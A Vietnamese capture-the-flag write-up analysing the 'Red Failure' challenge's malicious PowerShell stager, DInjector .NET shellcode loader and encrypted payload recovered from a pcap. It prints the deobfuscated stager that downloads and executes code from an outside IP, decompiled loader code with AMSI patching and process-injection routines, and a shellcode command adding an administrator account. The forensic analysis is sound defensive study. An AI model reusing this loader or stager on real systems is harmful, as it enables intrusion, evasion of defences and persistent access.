

### Description 
> During a recent red team engagement one of our servers got compromised. Upon completion the red team should have deleted any malicious artifact or persistence mechanism used throughout the project. However, our engineers have found numerous of them left behind. It is therefore believed that there are more such mechanisms still active. Can you spot any, by investigating this network capture?

### Link challenge 
> https://app.hackthebox.com/challenges/Red%2520Failure

### Solution 
- Mở file pcap được cho, sau khi phân tích, ta thấy rằng sau khi tải file poweshell xuống, lần lượt 1 file .dll và 1 file tên 9tVI0 cũng được tải xuống 
- 
- Phân tích từ file powershell trước 
<details>
<summary>
Src file ps1
</summary>

```
  sV  ("{0}{1}" -f'Y','uE51') ([typE]("{5}{0}{2}{3}{1}{4}"-f 'STeM','EcTIOn.aS','.REF','L','SemblY','Sy'));  ${a} = ("{0}{1}{2}{3}{4}" -f 'cu','rr','en','tth','read')
${B} = ("{1}{0}{3}{2}" -f '.182.1','147','89','72.1')
${C} = 80
${D} = ("{2}{0}{1}" -f '.dl','l','user32')
${E} = ("{1}{0}" -f 'tVI0','9')
${f} = (('z6'+'4&Rx27Z{0}B%'+'7'+'3u'+'p')  -F[cHar]36)
${g} = ((("{8}{5}{3}{1}{2}{0}{7}{4}{6}"-f '2','owsf3h','System3','d','svcho','Win','st.exe','f3h','C:f3h'))."r`EPlAcE"('f3h',[StRINg][ChaR]92))
${h} = ("{0}{1}"-f 'notepa','d')
${I} = ("{1}{0}"-f'xplorer','e')
${j} = ("{1}{0}{2}" -f'_','msvcp','win.dll')
${k} = ("{0}{1}" -f 'Tru','e')
${l} = ("{1}{0}" -f'rue','T')

${Me`Th`ODS} = @(("{1}{0}{2}{3}"-f'ot','rem','et','hread'), ("{2}{0}{1}{3}" -f'mo','tethre','re','addll'), ("{4}{2}{1}{3}{0}" -f'view','hr','otet','ead','rem'), ("{1}{3}{2}{4}{0}"-f 'ed','rem','e','ot','threadsuspend'))
if (${m`E`ThOdS}.("{0}{1}{2}"-f'C','ontain','s').Invoke(${A})) {
    ${h} = (&("{1}{0}{2}{3}" -f'tart-Pro','S','c','ess') -WindowStyle ("{1}{0}{2}"-f 'dd','Hi','en') -PassThru ${H})."I`d"
}

${ME`ThODS} = @(("{2}{0}{4}{3}{1}" -f'mo','dapc','re','ethrea','t'), ("{1}{0}{2}{3}{4}" -f 'adc','remotethre','on','te','xt'), ("{2}{0}{3}{1}" -f'oces','hollow','pr','s'))
if (${m`EthODS}.("{0}{1}{2}"-f 'C','ontain','s').Invoke(${a})) {
    try {
        ${I} = (&("{1}{0}{2}{3}" -f'-Pr','Get','o','cess') ${I} -ErrorAction ("{1}{0}"-f'p','Sto'))."ID"
    }
    catch {
        ${I} = 0
    }
}

${c`MD} = "${A} /sc:http://${B}:${C}/${E} /password:${F} /image:${G} /pid:${H} /ppid:${I} /dll:${J} /blockDlls:${K} /am51:${L}"

${d`AtA} = (.("{0}{1}" -f 'IW','R') -UseBasicParsing "http://${B}:${C}/${D}")."C`ontEnT"
${A`ssEM} =  ( ls ("{1}{3}{2}{0}" -f '1','vaR','5','IaBLe:yUE')  )."Va`LUe"::("{1}{0}"-f'd','Loa').Invoke(${d`AtA})

${fL`AGS} = [Reflection.BindingFlags] ("{1}{2}{3}{4}{0}"-f'tatic','NonPub','l','ic,','S')

${cl`ASs} = ${a`s`SEm}.("{2}{1}{0}" -f 'pe','etTy','G').Invoke(("{0}{3}{1}{4}{2}"-f 'DIn','.Det','r','jector','onato'), ${f`lAgS})
${En`TRY} = ${C`lASS}.("{3}{1}{0}{2}"-f 'e','M','thod','Get').Invoke(("{1}{0}" -f 'om','Bo'), ${f`L`AGS})

${Ent`RY}."I`N`VokE"(${nU`LL}, (, ${c`md}.("{1}{0}" -f 'it','Spl').Invoke(" ")))

```

</details>

- Có vẻ mã nguồn file này đã bị xáo trộn bằng phương pháp obfucation
- Mình sẽ sử dụng công cụ `PowerDecode-2.7.2` để xoá các byte rác và cho code dễ đọc hơn 

<details>
<summary>
Đây là output
</summary>

```
  sV  'YuE51' ([typE]'SySTeM.REFLEcTIOn.aSSemblY');  ${a} = 'currentthread'
${B} = '147.182.172.189'
${C} = 80
${D} = 'user32.dll'
${E} = '9tVI0'
${f} = (('z64&Rx27Z{0}B%73up')  -F'$')
${g} = 'C:\Windows\System32\svchost.exe'
${h} = 'notepad'
${I} = 'explorer'
${j} = 'msvcp_win.dll'
${k} = 'True'
${l} = 'True'

${MeThODS} = @('remotethread', 'remotethreaddll', 'remotethreadview', 'remotethreadsuspended')
if (${mEThOdS}.Contains.Invoke(${A})) {
    ${h} = (Start-Process -WindowStyle 'Hidden' -PassThru ${H}).Id
}

${METhODS} = @('remotethreadapc', 'remotethreadcontext', 'processhollow')
if (${mEthODS}.Contains.Invoke(${a})) {
    try {
        ${I} = (Get-Process ${I} -ErrorAction 'Stop').ID
    }
    catch {
        ${I} = 0
    }
}

${cMD} = "${A} /sc:http://${B}:${C}/${E} /password:${F} /image:${G} /pid:${H} /ppid:${I} /dll:${J} /blockDlls:${K} /am51:${L}"

${dAtA} = (IWR -UseBasicParsing "http://${B}:${C}/${D}").ContEnT
${AssEM} =  ( ls 'vaRIaBLe:yUE51'  ).VaLUe::'Load'.Invoke(${dAtA})

${fLAGS} = [Reflection.BindingFlags] 'NonPublic,Static'

${clASs} = ${asSEm}.GetType.Invoke('DInjector.Detonator', ${flAgS})
${EnTRY} = ${ClASS}.GetMethod.Invoke('Boom', ${fLAGS})

${EntRY}.INVokE(${nULL}, (, ${cmd}.Split.Invoke(" ")))


Malware hosting URLs report:

[ 0 ] Cannot connect to:  http://${B
[404: Not Found] -  http://147.182.172.189:80/9tVI0


Declared variables:

Variables at layer 1


Variables at layer 2

Name:
a
-------
Value:
currentthread
--------------------------------------------------
Name:
B
-------
Value:
147.182.172.189
--------------------------------------------------
Name:
C
-------
Value:
80
--------------------------------------------------
Name:
cMD
-------
Value:
currentthread /sc:http://147.182.172.189:80/9tVI0 /password:z64&Rx27Z$B%73up /image:C:\Windows\System32\svchost.exe /pid:11276 /ppid:0 /dll:msvcp_win.dll /blockDlls:True /am51:True
--------------------------------------------------
Name:
D
-------
Value:
user32.dll
--------------------------------------------------
Name:
E
-------
Value:
9tVI0
--------------------------------------------------
Name:
f
-------
Value:
z64&Rx27Z$B%73up
--------------------------------------------------
Name:
fLAGS
-------
Value:
Static, NonPublic
--------------------------------------------------
Name:
g
-------
Value:
C:\Windows\System32\svchost.exe
--------------------------------------------------
Name:
h
-------
Value:
11276
--------------------------------------------------
Name:
I
-------
Value:
0
--------------------------------------------------
Name:
j
-------
Value:
msvcp_win.dll
--------------------------------------------------
Name:
k
-------
Value:
True
--------------------------------------------------
Name:
l
-------
Value:
True
--------------------------------------------------
Name:
MeThODS
-------
Value:
remotethreadapc
remotethreadcontext
processhollow
--------------------------------------------------


```

</details>

- Tại dòng này `${dAtA} = (IWR -UseBasicParsing "http://${B}:${C}/${D}").ContEnT` sẽ tải file `user32.dll` xuống 
- Dòng này tạo 1 consoles `${cMD} = "${A} /sc:http://${B}:${C}/${E} /password:${F} /image:${G} /pid:${H} /ppid:${I} /dll:${J} /blockDlls:${K} /am51:${L}"` thực thi file vừa tải, nó đã được phân tích thành `currentthread /sc:http://147.182.172.189:80/9tVI0 /password:z64&Rx27Z$B%73up /image:C:\Windows\System32\svchost.exe /pid:11276 /ppid:0 /dll:msvcp_win.dll /blockDlls:True /am51:True` dựa vào các biến đã cho, với đầu vào là password:z64&Rx27Z$B%73up  và 1 file 9tVI0
- Tiếp theo đó chúng thực thi class DInjector.Detonator 

```
${clASs} = ${asSEm}.GetType.Invoke('DInjector.Detonator', ${flAgS})
${EnTRY} = ${ClASS}.GetMethod.Invoke('Boom', ${fLAGS})
```
- Bây giờ ta tiến hành điều tra file `user32.dll`
- Đựa vào đầu ra của virus total xác định file được complie bằng NET
- 
- Dùng công cụ `ilspy` để decomplie nó
- Tập trung vào hàm DInjector.Detonator.Boom 
```
// DInjector, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null
// DInjector.Detonator
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.IO;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;
using DInjector;

internal class Detonator
{
	[DllImport("kernel32.dll", ExactSpelling = true, SetLastError = true)]
	private static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect, uint nndPreferred);

	[DllImport("kernel32.dll")]
	private static extern void Sleep(uint dwMilliseconds);

	private static void Boom(string[] args)
	{
		if (VirtualAllocExNuma(Process.GetCurrentProcess().Handle, IntPtr.Zero, 4096u, 12288u, 4u, 0u) == IntPtr.Zero)
		{
			return;
		}
		int num = new Random().Next(2000, 3000);
		double num2 = (double)((uint)num / 1000u) - 0.5;
		DateTime now = DateTime.Now;
		Sleep((uint)num);
		if (DateTime.Now.Subtract(now).TotalSeconds < num2)
		{
			return;
		}
		Dictionary<string, string> dictionary = ArgumentParser.Parse(args);
		try
		{
			if (bool.Parse(dictionary["/am51"]))
			{
				AM51.Patch();
			}
		}
		catch (Exception)
		{
		}
		string text = string.Empty;
		foreach (KeyValuePair<string, string> item in dictionary)
		{
			if (item.Value == string.Empty)
			{
				text = item.Key;
			}
		}
		string text2 = dictionary["/sc"];
		string password = dictionary["/password"];
		byte[] data;
		if (text2.IndexOf("http", StringComparison.OrdinalIgnoreCase) >= 0)
		{
			Console.WriteLine("(Detonator) [*] Loading shellcode from URL");
			WebClient webClient = new WebClient();
			ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls | SecurityProtocolType.Tls11 | SecurityProtocolType.Tls12;
			MemoryStream memoryStream = new MemoryStream(webClient.DownloadData(text2));
			data = new BinaryReader(memoryStream).ReadBytes(Convert.ToInt32(memoryStream.Length));
		}
		else
		{
			Console.WriteLine("(Detonator) [*] Loading shellcode from base64 input");
			data = Convert.FromBase64String(text2);
		}
		byte[] array = new AES(password).Decrypt(data);
		int ppid = 0;
		try
		{
			ppid = int.Parse(dictionary["/ppid"]);
		}
		catch (Exception)
		{
		}
		bool blockDlls = false;
		try
		{
			if (bool.Parse(dictionary["/blockDlls"]))
			{
				blockDlls = true;
			}
		}
		catch (Exception)
		{
		}
		switch (text)
		{
		case "functionpointer":
			FunctionPointer.Execute(array);
			break;
		case "functionpointerv2":
			FunctionPointerV2.Execute(array);
			break;
		case "clipboardpointer":
			ClipboardPointer.Execute(array);
			break;
		case "currentthread":
			CurrentThread.Execute(array);
			break;
		case "currentthreaduuid":
			CurrentThreadUuid.Execute(Encoding.UTF8.GetString(array));
			break;
		case "remotethread":
			RemoteThread.Execute(array, int.Parse(dictionary["/pid"]));
			break;
		case "remotethreaddll":
			RemoteThreadDll.Execute(array, int.Parse(dictionary["/pid"]), dictionary["/dll"]);
			break;
		case "remotethreadview":
			RemoteThreadView.Execute(array, int.Parse(dictionary["/pid"]));
			break;
		case "remotethreadsuspended":
			RemoteThreadSuspended.Execute(array, int.Parse(dictionary["/pid"]));
			break;
		case "remotethreadapc":
			RemoteThreadAPC.Execute(array, dictionary["/image"], ppid, blockDlls);
			break;
		case "remotethreadcontext":
			RemoteThreadContext.Execute(array, dictionary["/image"], ppid, blockDlls);
			break;
		case "processhollow":
			ProcessHollow.Execute(array, dictionary["/image"], ppid, blockDlls);
			break;
		}
	}
}

```
- Tổng quan hàm `boom ` trên đang giải mã file `9tVI0` bằng aes, sau đó thực thi shell code này 
```
byte[] array = new AES(password).Decrypt(data);
```
- Dòng mã trên sử dụng lớp AES để giải mã một mảng byte data với mật khẩu được mã hoá trong hàm AES.
- Với password ta có thể dễ dàng nhận được tại 
```
string password = dictionary["/password"];
```
- Chuỗi password được lấy từ dictionary đã cho từ đầu vào của powershell `z64&Rx27Z$B%73up` 
- Tuy nhiên password được mã hoá sha256 thông qua hàm 
```
public AES(string password)
{
	key = SHA256.Create().ComputeHash(Encoding.UTF8.GetBytes(password));
}
```
- Về phần `cipher_text` sẽ được lấy từ dictionary
```
string text2 = dictionary["/sc"];
```
- Vậy cipher_text là file `9tVI0`
- Để giải mã được ta cần 1 cái iv nữa
- Tìm hiểu sâu hơn trong hàm decrypt 
```
public byte[] Decrypt(byte[] data)
{
	using (AesCryptoServiceProvider aesCryptoServiceProvider = new AesCryptoServiceProvider())
	{
		byte[] iV = Enumerable.ToArray(Enumerable.Take(data, 16));
		byte[] data2 = Enumerable.ToArray(Enumerable.Take(Enumerable.Skip(data, 16), data.Length - 16));
		aesCryptoServiceProvider.Key = key;
		aesCryptoServiceProvider.IV = iV;
		aesCryptoServiceProvider.Mode = CipherMode.CBC;
		aesCryptoServiceProvider.Padding = PaddingMode.PKCS7;
		using (ICryptoTransform cryptoTransform = aesCryptoServiceProvider.CreateDecryptor(aesCryptoServiceProvider.Key, aesCryptoServiceProvider.IV))
		{
			return PerformCryptography(cryptoTransform, data2);
		}
	}
}

```
- Thấy rằng IV được lấy từ 16 byte đầu tiên của file, còn cipher_text là từ 16 byte đó trở về sau.
- Viết 1 script nhỏ bằng python để giải mã 
```
import hashlib
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes
from Cryptodome.Util.Padding import pad, unpad
key = b'z64&Rx27Z$B%73up'
m = hashlib.sha256()
m.update(key)
key_update = bytearray(m.digest())
#print("key : ", key_update)
data = open("9tVI0", "rb").read()
iv = data[:16]
#print("iv", iv)
ciphertext = data[16:]
cipher = AES.new(key_update, AES.MODE_CBC, iv=iv)
plaintext =  unpad(cipher.decrypt(ciphertext), 16)
f = open('decrypt','wb')
f.write(plaintext)

``` 
- Tiếp theo để debug shell code này ta dùng công cụ `sclog.exe` 
```
Loading Shellcode into memory
Shellcode buffer: 0x11000000 - 0x11000139  (sz=0x139)
Starting up winsock
Installing Hooks
Executing Buffer...

_ret_____API_________________
  B4 Skipping WinExec( net user jmiller "HTB{00000ps_1_t0t4lly_f0rg0t_1t}" /add; net localgroup administrators jmiller /add,1)
```
> Flag : HTB{00000ps_1_t0t4lly_f0rg0t_1t}
